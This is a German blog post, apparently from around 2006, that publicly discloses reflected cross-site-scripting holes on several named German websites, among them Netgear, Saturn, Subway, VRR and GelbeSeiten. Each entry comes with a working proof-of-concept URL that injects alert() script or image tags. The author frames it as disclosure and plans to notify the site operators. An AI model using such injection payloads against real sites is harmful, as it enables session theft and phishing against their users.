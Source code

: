 <html><body><p>Auf dem 23C3 in Berlin wurden einige interessante Hacks vorgestellt, und im Wiki tauchte eine kleine Liste auf, was wo wie exploitbar ist. Unter anderem waren auch ein paar wenige Cross-Site-Scripting Sachen dabei. Mich hat es etwas gewundert, dass es wirklich nur wenige waren, und da dachte ich mir, schaust du mal, was heutzutage noch so alles geht.<br>
<br>
Das Ergebnis war leider etwas erschreckend, unter den angreifbaren Seiten waren nicht nur namhafte Netzwerk-Hardware Hersteller, sondern auch der Verkehrsverbund-Rhein-Ruhr, die Gelben-Seten und Das Örtliche. Ich bin kein Black-Hat oder so, möchte die Lücken dennoch hier mal veröffentlichen um die Aufmerksamkeit der Medien ein wenig zu pushen.<br>
<br>
Hier also die Lücken:<br>
<br>
<strong>Netgear</strong><br>
Auf netgear.de kann man ganz einfach einen "bösen" Link bauen:<br>
<a href="http://netgear.de/de/suche.html?q=%3Cscript%3Ealert('hallo')%3C/script%3E">http://netgear.de/de/suche.html?q=%3Cscript%3Ealert('hallo')%3C/script%3E</a><br>
Einfach als Such-Query etwas wie <strong>&lt;script&gt;...&lt;/script&gt;</strong> eingeben.<br>
Netterweise geht das selbe auch auf netgear.com, obwohl deren Flash erstmal bei &lt; im Query das Formular nicht abschicken will, aber wozu gibts Links?<br>
<a href="http://netgear.com/Search.aspx?text=%3Cscript%3Ealert('a')%3C/script%3E">http://netgear.com/Search.aspx?text=%3Cscript%3Ealert('a')%3C/script%3E</a><br>
<br>
<strong>Saturn</strong><br>
saturn.de ist ganz schlau, man kann nur rein, wenn man ein Cookie gesetzt hat. Also kurz auf <a href="http://www.saturn.de">http://www.saturn.de</a> gehen, irgend eine Filiale ausswählen und...<br>
<a href="http://www.saturn.de/frontend/offer/index.cfm?fa=prod_result_agr&amp;prod_search_txt=%22%3E%3Cscript%3Ealert(%22a%22)%3C/script%3E">saturn.de</a> den Link anklicken.<br>
Hier hat man wieder einen typischen Such-Fehler, aber man muss vor dem &lt;script&gt; ein <strong>"&gt;</strong> reinklatschen, damit das input-Feld zuende ist.<br>
<br>
<strong>Subway</strong><br>
Genau das Gleiche passiert auch auf der Seite von Subway, wenn man eine Filiale suchen möchte:<br>
<a href="http://www.subway-sandwiches.de/index.php?id=572&amp;swords=%22%3E%3Cscript%3Ealert(%22a%22)%3C/script%3E&amp;search.x=0&amp;search.y=0">subway-sandwiches.de</a><br>
<br>
<strong>VRR</strong><br>
Wer gerne Online den Fahrplan nachguckt, sollte vrr.de nicht vertrauen:<br>
<a href="http://vrr.de/cgi-bin/search.pl?query=%22%3E%3Cscript%3Ealert(%22a%22)%3C/script%3Esearch_left=Suchen">vrr.de</a><br>
Wieder der selbe Fehler, der netterweise auch auf rheinbahn.de existiert.<br>
<br>
<strong>YellowMap</strong><br>
Den Weg zum 23C3 in Berlin findet man am besten mit yellowmap.de:<br>
<a href="http://www.yellowmap.de/YM/Poi/Poi.aspx?Catchword=%22%3E%3Cimg%20src=%22http://events.ccc.de/congress/2006-mediawiki//skins/trustme/23c3-logo.png%22%3E">yellowmap.de</a><br>
Hier wollte ein Script irgendwie nicht, aber das Bild ist doch auch nett, oder?<br>
<br>
<strong>Das Örtliche</strong><br>
Suchmaschinen sind was feines, wenn man vor der Suche weiß, was sie finden:<br>
<a href="http://www2.dasoertliche.de/?buc=&amp;title=%3Cimg%20src=%22http://events.ccc.de/congress/2006-mediawiki//skins/trustme/23c3-logo.png%22%3E&amp;page=0&amp;context=0&amp;verlNr=&amp;verlName=&amp;verlUrl=&amp;verlServer=&amp;la=de&amp;cmd=cmd_nav_profile&amp;form_name=meinoetb&amp;action=3&amp;la=de">dasoertliche.de</a><br>
Hier ist übrigens ausnahmsweise nicht die Suche schuld, sondern das dynamische erstellen des Seitentitels aus der URL.<br>
<br>
<strong>GelbeSeiten</strong><br>
Die Krönung war aber die Seite der GelbeSeiten, die Suchfelder für Was und Wo werden nämlich sauber nach "komischen" Zeichen gefiltert, aber die Suche in den Treffern ist angreifbar:<br>
<a href="http://www1.gelbeseiten.de/yp/detailFilterAction.yp;jsessionid=1F9B1BE39A581F611AAF52A864AD87C4.gs1TomcatNode2?at=yp&amp;location=berlin&amp;subject=congress&amp;subscriberLookupID=46575&amp;tradeLookupID=46574&amp;button=top&amp;sortBy=&amp;firstLetter=&amp;tradeFilter=choice&amp;functionFilter=choice&amp;detailTop=%22%3E%3Cscript%3Ealert%28%27a%27%29%3C%2Fscript%3E">gelbeseiten.de</a> (leider ist da eine SessionID drin, aber da kommt man bestimmt auch drumherum)<br>
<br>
Ich verstehe einfach nicht, wie man so fahrlässig handeln kann, werde aber gleich die Betreiber der Seiten und Heise Security mit einem Link zu diesem Beitrag beglücken und hoffen, sie lernen was daraus.</p></body></html>